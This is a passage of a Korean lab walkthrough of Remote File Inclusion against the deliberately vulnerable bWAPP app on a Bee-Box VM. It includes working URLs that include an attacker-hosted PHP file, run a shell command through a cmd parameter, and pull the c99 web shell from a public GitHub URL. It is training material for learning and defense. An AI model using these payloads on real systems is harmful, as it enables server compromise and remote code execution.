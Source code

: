 #### 3. URL에 접속하여 rfi.php 파일 확인

![image](https://user-images.githubusercontent.com/28076542/52853539-3c9bac00-315f-11e9-8bea-9c127aa6ee28.png)

* URL: `127.0.0.1:8000`으로 접속하면 파일을 볼 수 있음

#### 4. ifconfig로 칼리리눅스 ip 주소를 찾고 Bee-Box에서 다음과 같이 URL에 접속

```bash
root@ming:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.190.155  netmask 255.255.255.0  broadcast 192.168.190.255
        inet6 fe80::20c:29ff:fe1d:546c  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:1d:54:6c  txqueuelen 1000  (Ethernet)
        RX packets 31092  bytes 30218675 (28.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 14655  bytes 2632085 (2.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 5935  bytes 2258547 (2.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5935  bytes 2258547 (2.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

![image](https://user-images.githubusercontent.com/28076542/52853709-bcc21180-315f-11e9-9414-55779ce6357c.png)

* URL: `https://192.168.190.143:8443/bWAPP/rlfi.php?language=http://192.168.190.155:8000/rfi.php&action=go`

#### 5. URL의 cmd 변수에 시스템 명령어를 삽입하여 파일 만들고 Bee-Box에서 파일 생성 확인

```bash
bee@bee-box:/var/www/bWAPP$ ls -l cmdtest
-rw-r--r-- 1 www-data www-data 4 2019-02-15 12:27 cmdtest
```

* URL: `https://192.168.190.143:8443/bWAPP/rlfi.php?language=http://192.168.190.155:8000/rfi.php&action=go&cmd=echo "abc" >cmdtest`

#### 6. RFI로 웹쉘을 가져올 수도 있음

![image](https://user-images.githubusercontent.com/28076542/52854201-1e36b000-3161-11e9-894b-9e6a3b4f71e5.png)

* URL: `https://192.168.190.143:8443/bWAPP/rlfi.php?language=https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php&action=go`

---

## 방어하는 코드
